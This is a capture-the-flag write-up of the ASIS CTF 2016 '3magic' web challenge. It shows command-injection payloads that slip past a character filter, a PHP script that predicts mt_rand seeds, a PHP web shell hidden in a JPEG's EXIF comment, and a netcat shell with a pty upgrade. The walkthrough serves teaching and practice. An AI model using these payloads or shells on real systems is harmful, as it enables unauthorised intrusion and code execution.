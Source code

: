 ```yaml
---
layout: post
title: "ASIS CTF 2016: 3magic"
category: Security
date: 2016-05-08 22:30:00 -0700
tags:
  - Security
  - CTF
---
```


We're directed to a web application that provides us with the ability to ping an
arbitrary host.  Like many such web interfaces, this one is vulnerable to
[command injection](https://www.owasp.org/index.php/Command_Injection).  We can
provide flags like -v to get the version of ping being used, but inserting other
characters, like `|`, `;`, or `$()` result in a response of `invalid character
detected`.  Notably, so do spaces and tabs, significantly limiting the ability
to run commands (we'll see how to get around this shortly).

![ping](/img/blog/asis-2016/3magic_start.png)

I spent some time testing various characters and discovered that neither
ampersands nor newlines were included in the filter set, so these could be used
to separate commands.  I could quickly list the files in the current directory
with `&ls`, but couldn't figure out a way to traverse directories.

~~~
files
index.php
pages
~~~

One of my [teammates](http://fadec0d3.blogspot.com/) discovered that you could
use brace expansion to add command arguments, so `&{ls,pages}` lets us list the
pages directory:

~~~
Adm1n1sTraTi0n2.php
ping.php
~~~

`Adm1n1sTraTi0n2.php` looks interesting, but I'd really like to see the source.
Several attempts to get source result in an error of `addr is too long`, which
seems to occur at 15 characters.  Eventually, we hit upon the idea of using the
command `grep -Hr . .` to grep for every line of every file in the current
directory and below.  This looks like `&{grep,-Hr,.,.}` and gives us the source
of every file we're looking at (though not in a very pretty format).  I've
cleaned them up below.

### index.php ###

~~~
<html>
<head>
  <title>3magic</title>
<body>
  <li>
    <a href='?page=ping'>ping</a>
  </li>
  <?php
    if ($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {
  ?>
      <li>
      <a href='?page=???'>admin</a>
      </li>
  <?php
    }
  ?>
  <hr>
  <?php
  if (isset($_GET['page'])) {
    $p = $_GET['page'];
    if (preg_match('/(:\/\/)/', $p)) {
      die('attack detected');
    }
    include("pages/".$p.".php");
    die();
  }
  ?>
</body>
</html>
~~~

### ping.php ###

~~~
<p>ping</p>
<form action="./?page=ping" method="POST">
  <input type="text" name="addr" placeholder="addr">
  <input type="submit" value="send">
</form>
<textarea style="width: 300px; height: 300px" placeholder="result">
<?php
if (isset($_POST['addr'])) {
  $addr = $_POST['addr'];
  if (preg_match('/[`;$()| \/\'>"\t]/', $addr)) {
    die("invalid character detected");
  }
  if (strpos($addr, ".php") !== false){
    die("invalid character detected");
  }
  if (strlen($addr) > 15) {
    die("addr is too long");
  }
  @system("timeout 2 bash -c 'ping -c 1 $addr' 2>&1");
}
?>
</textarea>
~~~

### Adm1n1sTraTi0n2.php ###

~~~
<p>image inspector</p>
<?php
mt_srand((time() % rand(1,10000) + rand(2000,5000))%rand(1000,9000)+rand(2000,5000));
// files directory flushed every 3min
setcookie('test', mt_rand(), time(), '/');
if (isset($_POST['submit'])) {
  $check = getimagesize($_FILES['file']['tmp_name']);
  if($check !== false) {
    echo 'File is an image - ' . $check['mime'];
    $filename = '/var/www/html/3magic/files/'.mt_rand().'_'.$_FILES['file']['name']; // prevent path traversal
    move_uploaded_file($_FILES['file']['tmp_name'], $filename);
    echo "<br>\n";
    system('/usr/bin/file -b '.escapeshellarg($filename));
    echo "<br>\n";
  } else {
    echo "File is not an image";
  }
}
?>
<form action="?page=Adm1n1sTraTi0n2" method="post" enctype="multipart/form-data">
  Select image to upload:
  <input type="file" name="file">
  <input type="submit" value="Upload Image" name="submit">
</form>
~~~

So, we have a file upload with validation to test if the image is, in fact, an image.
(`getimagesize` is pretty hard to fake.)  We can upload arbitrary files, but I'm not
sure if we can get them included thanks to the detection of slashes in the include in
index.php.  There's also the small matter of predicting the value of `mt_rand()` used
in the filename.  On second glance, I realize there's nothing stopping us from
uploading a file whose extension is `.php`, but there's still the matter of
`mt_rand()`.  It actually took me several minutes before I noticed the cookie
being set, leaking a value from `mt_rand()`.  I know `mt_rand` isn't secure and
should be predictable, but I'm not sure how to do it.

It turns out there's a [tool out there](http://download.openwall.net/pub/projects/php_mt_seed/) to find the seed from a returned value of
`mt_rand`, except it turns out it takes about 10 minutes on my laptop.  I
realized the `mt_srand` call to seed `mt_rand` looked a little bit funny with
all the math.  Working it through, I realized that, rather than a full 2**32
range for the seed, the entire working range is only between 3000 and 14000.
With this range, it turned out a small PHP script was a better option to figure
out the next `mt_rand` value:

~~~
<?PHP
for($i=3000;$i<=14000;$i++) {
  mt_srand($i);
  if (mt_rand() == $argv[1]) {
    print mt_rand();
    print "\n";
    break;
  }
}
~~~

With this tool, I was able to predict full filenames, and could upload images
with the extension `.php`.  To get code execution, I added `<?PHP
passthru($_GET['x']); ?>` as the EXIF comment in a JPEG image and uploaded it as
a `.php` file.  I was quickly able to confirm both that my script and the PHP
embedded worked by listing the directory.

Now, to find the flag.  It wasn't in the working directory or the document root,
so I checked the root of the system, and found a file named `flag`, but it
turned out it was only readable by the user `flag`, and I was running as
`www-data`.  However, it turned out that there was also a program `/read_flag`,
but attempting to call it from my PHP shell resulted in a Segmentation Fault.
So I started a shell with netcat, and tried from this shell.  Still, a
segmentation fault.  Maybe it needed a pty?  Fortunately, there's a nice python
one-liner to allocate a pseudo terminal: `python -c "import pty;pty.spawn('/bin/bash')"`
Running `/read_flag` from this point gave results:

~~~
www-data@web-tasks:~/html/3magic/files$ /read_flag
/read_flag
Write "*please_show_me_your_flag*" on my tty, and I will give you flag :)
*please_show_me_your_flag*
*please_show_me_your_flag*
ASIS{015c6456955c3c44b46d8b23d8a3187c}
~~~
